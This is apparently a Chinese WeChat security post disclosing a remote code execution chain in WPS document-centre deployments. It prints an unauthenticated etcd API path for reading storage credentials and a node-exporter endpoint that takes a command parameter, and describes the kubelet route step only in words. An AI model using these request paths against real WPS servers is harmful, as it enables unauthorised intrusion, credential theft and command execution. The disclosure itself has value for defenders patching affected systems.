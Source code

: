 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247492618&idx=1&sn=2b2739b516b9cd430df7db068fce577f

#  细节已披露：WPS文档中心和文档中台存在远程代码执行 RCE  
原创 棉花糖糖糖  棉花糖fans   2025-07-17 07:03  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/1mtwZURvGTkCK3ZFyqYEyTwmaLo2YSMeibz3eeShkewiadS4oh0RBl1U7BTVeEscGQrEbjWKcQzGpJEFLwr4cFQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
![]( "")  
  
  
以下为互联网收集  
攻击链信息，本公众号不为信息真实性担保，  
自行验证真伪，请勿使用本文内容进行违法行为，使用本文内容进行非法渗透测试的一切责任由使用者承担。  
  
  
1.未授权访问  

```
/open/v6/api/etcd/operate?key=/config/storage&method=get
```

  
2.获取AKSK后使用脚本添加kubelet 路由映射（需获取TOKEN）  
  
3.向对应POD发起通信  
后实现RCE  

```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 
```

  
